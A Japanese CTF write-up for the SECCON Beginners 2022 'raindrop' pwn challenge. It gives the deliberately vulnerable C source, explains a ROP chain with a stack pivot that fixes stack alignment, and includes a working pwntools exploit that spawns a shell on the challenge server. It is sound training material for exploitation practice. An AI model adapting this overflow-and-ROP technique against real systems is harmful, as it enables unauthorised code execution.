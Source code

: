 # SECCON Beginners CTF 2022 `raindrop [pwn]` writeup

## 問題
おぼえていますか?

`nc raindrop.quals.beginners.seccon.jp 9001`

実行ファイルとソースコード、あとwelcom.txtなるものが配られる。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUFF_SIZE 0x10

void help() {
    system("cat welcome.txt");
}

void show_stack(void *);
void vuln();

int main() {
    vuln();
}

void vuln() {
    char buf[BUFF_SIZE] = {0};
    show_stack(buf);
    puts("You can earn points by submitting the contents of flag.txt");
    puts("Did you understand?") ;
    read(0, buf, 0x30);
    puts("bye!");
    show_stack(buf);
}

void show_stack(void *ptr) {
    puts("stack dump...");
    printf("\n%-8s|%-20s\n", "[Index]", "[Value]");
    puts("========+===================");
    for (int i = 0; i < 5; i++) {
        unsigned long *p = &((unsigned long*)ptr)[i];
        printf(" %06d | 0x%016lx ", i, *p);
        if (p == ptr)
            printf(" <- buf");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE))
            printf(" <- saved rbp");
        if ((unsigned long)p == (unsigned long)(ptr + BUFF_SIZE + 0x8))
            printf(" <- saved ret addr");
        puts("");
    }
    puts("finish");
}

__attribute__((constructor))
void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    help();
    alarm(60);
}
```

## 解法
プログラムを実行してみるとまずhelp関数が呼ばれてwelcom.txtが出力される。

```
Hey! You are now going to try a simple problem using stack buffer overflow and ROP.

I will list some keywords that will give you hints, so please look them up if you don't understand them.

- stack buffer overflow
- return oriented programming
- calling conventions
```

さすがビギナー向けCTFです。
難易度easyということもあってちゃんと指針を示してくれている！
脆弱性は教えてくれているけど一応セキュリティ機構も確認。

```
[*] '/home/caffeine/ctf/seccon4b22/pwn/raindrop/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
No canaryかつNo PIEなので、welcom.txt通りStack buffer overflowからROPを狙う。
具体的には下の図のようなイメージでROPを積む。

```
 Offset |      Value
========+=================
 + 0x00 |    '/bin/sh'     <- buffer
--------+-----------------
 + 0x08 | 'A'*8 (padding)
--------+-----------------
 + 0x10 | 'A'*8 (padding)  <- saved rbp
--------+-----------------
 + 0x18 | [pop rdi ; ret]  <- saved ret addr
--------+-----------------
 + 0x20 |   ['/bin/sh']
--------+-----------------
 + 0x28 |   [system()]
--------+-----------------
```

"/bin/sh"を第一引数にとってsystem関数を呼ぶ。
これで良いでしょう。
スタック領域のアドレスがランダム化されていますが (ASLR)、最初にスタックの中身を見せてくれるのでmain関数内のrbpが分かります。
このアドレス値から'/bin/sh'のアドレスを逆算しましょう。
動的解析より、格納されたmain関数内のrbpとbufferの先頭アドレスのオフセットが0x20であることが分かるはずです。
(余談ですが、筆者はベースポインタがリークされているのに気付かず任意アドレス書き込みをいかに作るか無駄に悩んで時間を溶かしました…)

… 残念ながらこの方法ではsystem関数でrspのアライメントを確認されて無事セグフォで落ちます。
スタックポインタは0x10の整数倍で調整されていなければなりません。
最も簡単な対応策はROPに[ret]を1つ追加することでrspを0x08ずらす方法ですが、生憎これ以上は書き込めない。
限られた書き込みで如何にアライメントを突破するかがこの問題の争点だと感じました。

## Exploit
read関数を呼ぶことでスタックへの書き込みを増やすのが良いと思いますが、今回は別の手法で。
先程の図ではパディングしただけだったバッファ内の0x10バイトを利用して一撃で仕留めます。

```
 Offset |      Value
========+======================
 + 0x00 |   [pop rdi ; ret]      <- buffer
--------+----------------------
 + 0x08 |     ['/bin/sh']
--------+----------------------
 + 0x10 |      [system()]        <- saved rbp
--------+----------------------
        | [pop rsp ; pop r13 ;
 + 0x18 |  pop r14 ; pop r15 ;
        |  ret                ]  <- saved ret addr
--------+----------------------
 + 0x20 |   [buffer] - 0x18
--------+----------------------
 + 0x28 |      '/bin/sh'
--------+----------------------
```

eipを奪った後、上図がどういう挙動をするかというと
   1. pop rspでスタックポインタがbufferのアドレス - 0x18バイトのところを指す
   2. pop レジスタを3回繰り返してスタックポインタがbufferの先頭アドレスを指したところでret
   3. pop rdiで'/bin/sh'のアドレスを第一引数に設定して
   4. system関数を呼ぶ。アライメントも揃っている

これで完成。bufferへの書き込み0x18バイトとオーバーフロー0x18バイトの計0x30バイトを余すことなく使った美しいエクスプロイト！
以上を踏まえて作成したexploit codeは以下の通り。

```py
from pwn import *
import sys

addr_system = 0x4010a0
addr_pop_rdi = 0x401453
addr_pop_rsp_r13_r14_r15 = 0x40144d

binsh = b"/bin/sh\0x00"

# io = process("./chall")
io = remote("raindrop.quals.beginners.seccon.jp", 9001)

ret = io.readuntil("000002 | ")
print(ret.decode(), end="")

ret = io.readuntil(" ")
print(ret.decode(), end="")

addr_saved_rbp = int(ret.decode(), 16)
addr_buffer = addr_saved_rbp - 0x20
addr_binsh = addr_buffer + 0x28

ret = io.readuntil("understand?")
print(ret.decode())

s = p64(addr_pop_rdi)
s += p64(addr_binsh)
s += p64(addr_system)
s += p64(addr_pop_rsp_r13_r14_r15)
s += p64(addr_buffer - 0x18)
s += binsh
io.send(s)

ret = io.readuntil("finish")
print(ret.decode())

io.interactive()
```

FLAG: `ctf4b{th053_d4y5_4r3_g0n3_f0r3v3r}`

## 追記
スタックのアライメント揃える方法について、ややこしいROP組んで突破したけど関数の頭 (該当関数のpltの先頭)ではなくrbp積んだ後とか関数をcallしてるところに飛ばして調整するのがセオリーらしい。
基本的には、リターンアドレスが入ってるところを関数の頭に書き換えるとリターンアドレスを積む1手順分ずれて上手くいかないってことも学んだ。
